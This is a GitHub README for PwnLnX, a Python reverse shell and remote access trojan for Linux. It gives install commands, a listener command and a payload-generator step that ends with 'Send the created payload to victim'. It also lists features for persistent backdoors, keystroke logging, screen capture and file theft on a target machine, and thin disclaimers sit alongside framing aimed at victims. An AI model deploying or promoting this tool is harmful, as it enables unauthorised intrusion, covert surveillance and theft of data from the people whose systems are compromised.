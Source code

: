 # PwnLnX
An advanced **multi-threaded**, **multi-client** python reverse shell for hacking linux systems. There's still more work to do so feel free to help out with the development.
**Disclaimer**: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal.

:mailbox: Reach me out!

[![Twitter Badge](https://img.shields.io/badge/-@spectertraw-1ca0f1?style=flat&labelColor=1ca0f1&logo=twitter&logoColor=white&link=https://twitter.com/spectertraww)](https://twitter.com/spectertraw) [![Mail Badge](https://img.shields.io/badge/-NOOBSEC-e74c3c?style=flat&labelColor=e74c3c&logo=youtube&logoColor=white)](https://youtube.com/noobsec) [![Mail Badge](https://img.shields.io/badge/-LevelivSecurity-e74c3c?style=flat&labelColor=e74c3c&logo=youtube&logoColor=white)](https://youtube.com/levelivsec) [![Mail Badge](https://img.shields.io/badge/-@spectertraww-e84393?style=flat&labelColor=e84393&logo=instagram&logoColor=white)](https://instagram.com/spectertraww) [![Mail Badge](https://img.shields.io/badge/-spectertraww-c0392b?style=flat&labelColor=c0392b&logo=gmail&logoColor=white)](mailto:spectertraww@gmail.com)

#### Communities 🕵🕵
##### Hang out with Level iv Security and Noob Security family on Discord.

 [![Discord](https://img.shields.io/discord/731263849990193153?color=red&label=@levelivsec&logo=Discord&style=flat-square&link=https://discord.gg/THJX876)](https://discord.gg/THJX876) [![Discord](https://img.shields.io/discord/805879201961607178?color=green&label=@NOOBSEC&logo=Discord&style=flat-square&link=https://discord.gg/wauq8bDbw4)](https://discord.gg/wauq8bDbw4)


## Getting Started
Please follow these instructions to get a copy of PwnLnX running on your local machine without any problems.
### Prerequisites
* Python3:
    * vidstream
    * pyfiglet
    * tqdm
    * mss
    * termcolor
    * pyautogui
    * pyinstaller
    * pip3
    * pynput

### Installing
```bash
# Download source code
git clone https://github.com/spectertraww/PwnLnX.git


cd PwnLnX

# download and  install the dipendences
chmod +x setup.sh

./setup.sh

```

### Getting PwnLnx up and running
#### Show help
`python3 PwnLnX.py --help`

#### Listening for incoming connections
`python3 PwnLnX.py --lhost [your localhost ip address] --lport [free port for listening incoming connections]`

#### creating/Generating a payload
```bash
chmod +x PwnGen.sh

./PwnGen.sh

```

>then follow the procedure to successifully create your payload, the payload is saved in PwnLnx directory. Send the created payload to victim

### PwnLnx Usage

| Command       | Usage                                                 |
| ------------- |-------------------------------------------------------|    					
| help          | show help     					| 
| exit          | close all the sessions and quit the progaram.         |
| show sessions | show all available sessions from connected.           |
| session [ID]  | interact with a specified session ID.                 | 
| kill [all/ID] | kill a specified session or all to kill all sessions. |
| banner        | have funny by changing the program banner             |

---

### Interact with a session

| Command            | Usage                                                   |
| -------------------|---------------------------------------------------------| 
| help               | show help.     					       | 
| quit               | close the current session.                              |
| background         | background the current session.                         |
| sysinfo            | get minimum target system information.                  | 
| create_persist     | create a persistant backdoor.                           |
| upload             | upload the specified filename to the target system.     |
| download           | download the specified filename from the target system. |
| screenshot         | take a desktop screenshot of the target system.         |
| start_screenshare  | start desktop screensharing.                            | 
| stop_screenshare   | stop desktop screensharing.                             |
| start_keycap       | start capturing victim's pressed keystrokes.            |
| dump_keycap        | dump/get the captured keystrokes.                       |
| stop_keycap		 | stop the capturing keystrokes.                          |

> **NB.** you can also execute linux system commands besides those listed above.

## Disclaimer 
I will not be responsible for any direct or indirect damage caused due to the usage of this tool, it is for educational purposes only.
## Report Bugs
> spectertraww@gmail.com

## Snapshots
![](res/start_con.png)
![](res/waiting_con.png)
![](res/show_sess.png)
![](res/session.png)
![](res/help.png)
![](res/help2.png)
![](res/ls.png)
![](res/download.png)
![](res/pwngen.png)








